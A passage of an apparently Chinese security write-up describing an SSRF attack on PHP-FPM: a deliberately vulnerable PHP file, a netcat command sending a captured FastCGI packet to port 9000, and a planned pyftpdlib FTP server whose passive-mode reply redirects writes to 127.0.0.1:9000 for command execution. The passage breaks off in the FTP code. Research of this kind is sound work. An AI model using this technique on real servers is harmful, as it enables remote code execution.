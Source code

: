 ```
cat phpfpmlog12 | ./nc 127.0.0.1 9000
```
### file_put_contents脚本
漏洞php文件vuln.php
```php
vuln test
<?php 

$url = $_GET["url"];

echo 'reading:' ;
$contents = file_get_contents($url);
echo 'read ok';
var_dump($contents);

echo 'writing:' ;
file_put_contents($url,$contents);
echo 'write ok' ;
?>

```

// 中间做了很多测试和实验，下面只写成功的结果，略去失败的尝试
现在我们需要做的就是file_get_contents的时候，发送准备好的数据包，file_put_contents请求的时候，pasv到127.0.0.1:9000端口去，造成命令执行。

ftp脚本，在[basic_ftpd.py](https://github.com/giampaolo/pyftpdlib/blob/master/demo/basic_ftpd.py)的基础上进行修改。
* 赋予anonymous读写权限
* 修改MyPassiveDTP，在第二次file_put_contents请求过来时，PASV命令返回127.0.0.1:9000 `227 Entering passive mode (127,0,0,1,35,40)`
* 修改MyHandler，在第二次file_put_contents请求过来时，SIZE返回`550 /phpfpmlog12aaabb is not retrievable.`
* 备份之前抓包记录的phpfpmlog

```python
#!/usr/bin/env python

# Copyright (C) 2007 Giampaolo Rodola' <g.rodola@gmail.com>.
# Use of this source code is governed by MIT license that can be
# found in the LICENSE file.

"""A basic FTP server which uses a DummyAuthorizer for managing 'virtual
users', setting a limit for incoming connections and a range of passive
ports.
"""

import os

from pyftpdlib.authorizers import DummyAuthorizer
from pyftpdlib.handlers import FTPHandler,PassiveDTP
from pyftpdlib.servers import FTPServer

import logging
logging.basicConfig(level=logging.DEBUG)

class MyHandler(FTPHandler):
    fileflag =  False

    def on_connect(self):
        print("%s:%s connected" % (self.remote_ip, self.remote_port))

    def on_incomplete_file_received(self, file):
        # remove partially uploaded files
        import os
        os.remove(file)
```